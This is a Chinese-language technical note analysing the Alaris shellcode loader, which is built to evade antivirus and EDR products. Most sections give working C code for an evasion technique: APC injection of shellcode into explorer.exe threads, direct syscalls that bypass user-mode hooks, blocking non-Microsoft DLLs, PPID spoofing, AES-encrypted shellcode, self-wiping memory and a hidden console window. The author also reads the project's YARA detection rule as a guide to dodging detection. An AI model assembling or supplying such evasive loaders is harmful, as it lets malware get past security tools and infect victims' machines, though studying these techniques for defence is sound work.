



# ALaris 免杀shellcode loader技术原理

# ALaris shellcode 免杀loader 技术原理

看到一个GitHub项目：https://github.com/cribdragg3r/Alaris



最近更新时间是30天前，vt上查杀是0，所以看看有什么免杀的黑科技，本文是一篇记录笔记，该GitHub上提供了一些参考资料，我看了这些参考资料后，也一并整理了出来（国外作者的资料非常朴实，会告诉渔从何来，为什么要这样做）。

## 杀毒厂商如何如何阻止恶意程序活动的

Windows自Vista以来就具有一种内置的安全功能，称为PatchGuard（PG），可保护内核的关键区域免遭修改。这些领域包括：

  * 系统服务描述符表（SSDT）
  * 全局描述符表（GDT）
  * 中断描述符表（IDT）
  * 系统映像（`ntoskrnl.exe`，`ndis.sys`，`hal.dll`）
  * 处理器MSR（系统调用）


PG（令安全厂商和恶意软件开发人员大失所望）限制了对Windows内核进行扩展的任何软件（甚至出于正当理由）。在推出之前，安全厂商打补丁SSDT是司空见惯的事情。

微软的立场是， 修补内核的 _任何_ 软件（无论是否为恶意软件）都可能导致可靠性，性能以及最重要的是安全问题。PG发布后，安全厂商必须完全重新设计其反恶意软件解决方案。可以选择规避PG，但这不是旨在保护您的操作系统的软件的安全，长期的解决方案。

### 内核模式通知

作为在Windows内核中打补丁或hook的替代方法，Windows内核提供一些有关对检测恶意软件有用的时间通知，常见的包括事件的创建，进程或线程的终止，dll/exe的映射执行。



Microsoft建议安全供应商使用 微型筛选器 驱动程序来拦截，检查和有选择地阻止I / O事件。通过NtDeviceIoControlFile 系统调用可实现大量的文件系统和网络功能 。

由于Microsoft没有为内核组件提供接收内存操作通知的合法方法，因此这迫使供应商需要在每个进程中安装hook。基于此，可以有各种方法绕过它们。

如果对绕过的技术感兴趣，可以查看如下的参考资料

  * https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/


## 防止第三方DLL注入

阻止所有非Microsoft Dll注入我们的进程，这样一些系统沙箱就不好hook判断行为了。
```c 
// Disallow non-microsoft signed DLL's from hooking/injecting into our CreateProcess():
InitializeProcThreadAttributeList(si.lpAttributeList, 2, 0, &size);
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &policy, sizeof(policy), NULL, NULL);

```
```c 
// Disallow non-MSFT signed DLL's from injecting
PROCESS_MITIGATION_BINARY_SIGNATURE_POLICY sp = {};
sp.MicrosoftSignedOnly = 1;
SetProcessMitigationPolicy(ProcessSignaturePolicy, &sp, sizeof(sp));

```

## Syscall

直接使用`syscall`调用系统函数，可以绕过大多数监控软件的hook。

参考的是 https://github.com/jthuraisamy/SysWhispers2 项目，但是这个项目仅对x64位系统提供了支持。

这个项目通过获取PEB，得到ntdll空间地址，再解析ntdll的导出表，获得每个函数名称和函数加载地址，根据函数加载地址进行冒泡排序，它的位置即是syscall的编号了。

参考文章

  * https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/


## 进程注入手段

在作者的文章中

  * https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/


使用`CreateRemoteThread`执行shellcode，即使使用了`syscall`手段，最后依然被`Sysmon`程序发现了。

> Sysmon hooking是在系统内核（SYSTEM）中运行的，因此，除非禁用它（需要成为管理员），否则我们无法对其真正隐藏。

**Sysmon：**

可用来监控和记录系统活动，并记录到windows事件日志，包含如下事件：

  * Event ID 1: Process creation
  * Event ID 2: A process changed a file creation time
  * Event ID 3: Network connection
  * Event ID 4: Sysmon service state changed
  * Event ID 5: Process terminated
  * Event ID 6: Driver loaded
  * Event ID 7: Image loaded
  * Event ID 8: CreateRemoteThread
  * Event ID 9: RawAccessRead
  * Event ID 10: ProcessAccess
  * Event ID 11: FileCreate
  * Event ID 12: RegistryEvent (Object create and delete)
  * Event ID 13: RegistryEvent (Value Set)
  * Event ID 14: RegistryEvent (Key and Value Rename)
  * Event ID 15: FileCreateStreamHash
  * Event ID 255: Error


详情见https://technet.microsoft.com/en-us/sysinternals/sysmon

**注：**

CreateRemoteThread为Event ID 8

此时我们可以使用`QueueUserAPC`进行注入。

Sysmon无法通过`QueueUserAPC`检测到进程注入。根据我的有限理解，这是因为我们没有在受害者进程中创建新线程。我们枚举进程已实例化的线程，打开线程，将其挂起，对其进行过程调用（我们的shellcode），然后恢复该线程。我们只是访问一个进程，并告诉它执行一些侵入性较小的过程。

### APC注入在实战中的场景

APC注入进程`explorer.exe`代码
```c 
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
    PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
    if (Process32First(snapshot, &processEntry))
    {
        while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0)
        {
            Process32Next(snapshot, &processEntry);
        }
    }
    HANDLE victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //3.Execute shellcode
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, shellcode, shellcodeSize, NULL);
    THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
    std::vector<DWORD> threadIds;
    if (Thread32First(snapshot, &threadEntry))
    {
        do {
            if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID)
            {
                threadIds.push_back(threadEntry.th32ThreadID);
            }
        } while (Thread32Next(snapshot, &threadEntry));
    }
    for (DWORD threadId : threadIds)
    {
        HANDLE threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }
    return 0;

```

可以看到，我们对explorer所有线程进行了注入，假设线程有20-50个，那么我们的shellcode会执行20-50次（虽然shellcode可以用条件来限制只执行一次）。

我们是否可以将线程限制一个数量？例如5个。



可以看到，我们注入了5个线程，但是只执行了3个线程，根据以往经验，有60％-70％的注入线程成功执行，根据限制数量不同也有不同。同时还可能有程序崩溃的现象。这也是使用这个技术的一些弊端。

## shellcode加密

朴实无华的使用对称加密算法 AES- CBC 256加密的shellcode，密钥和iv都存在于代码中。主要是防止`xFC\xE8`、`\xFC\x48`等的特征被检测到。

在使用stage payload或者更小的payload时候，AES加密算法足够绕过大多数的EDR系统。

## PPID欺骗

Alaris会创建一个子进程，通过进程替换技术执行shellcode，但是此时进程的执行路径是`loader.exe -> mobsync.exe`，通过ppid欺骗，将它变得看起来是自然产生，即`explorer.exe -> mobsync.exe`
```c 
// This is just directly stolen from ired.team
DWORD get_PPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}
// Mask the PPID to that of explorer.exe
HANDLE explorer_handle = OpenProcess(PROCESS_ALL_ACCESS, false, get_PPID());
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &explorer_handle, sizeof(HANDLE), NULL, NULL);

```

## 执行后覆盖自身shellcode

在执行shellcode的10s后，会用空字节覆盖自身。
```c 
// Overwrite shellcode with null bytes
Sleep(10000);
uint8_t overwrite[500];
NtWriteVirtualMemory(hProcess, mem, overwrite, sizeof(overwrite), 0);

```

但是这个时间选择….

可以麻烦一点，在shellcode中进行处理，执行完后将自身清除。很简单，获取下执行时候的eip，向上回溯找到首位置就好了- =。

## 隐藏启动窗口

这是它readme中没有提到的一个小点，但确非常有效
```c++ 
ShowWindow(GetConsoleWindow(), SW_HIDE);

```

很多杀毒对DOS程序会比较放松，对窗口程序比较敏感，通过这个也可以隐藏DOS程序。

## 查杀规则

官方的github提供了一个查杀的yara规则
``` 
import "pe"

rule alaris 
{
    meta:
        description = "Find all stock Melange Loaders"
        author = "Joshua Faust"
        date = "2020/10/14"
    strings:
        $ = "[!] ERROR" fullword ascii wide
    $ = "C:\\Windows\\System32\\mobsync.exe" fullword wide
        $ = "gexplorer.exe" fullword wide
        $ = { 70 76 20 f2 3f 4c 4c 10 45 fb 50 93 d8 d1 c9 fb 6c 30 45 88 dd b2 f4 af 9c 1c 22 13 26 67 24 bd }
        $ = { 89 54 7f 64 c0 ce 3a 44 f0 ee af ?? a8 dc 6b 65 }
    condition:
         pe.is_pe and 3 of them
}

```

这个规则似乎告诉我们，我们用的时候要把字符串也加密一下。下面那些字节码的规则，我还没有生成一个木马，暂时看不了是什么规则了。

## 参考

  * https://sevrosecurity.com/2020/10/14/alaris-a-protective-loader/
  * https://github.com/jthuraisamy/SysWhispers2
  * https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/


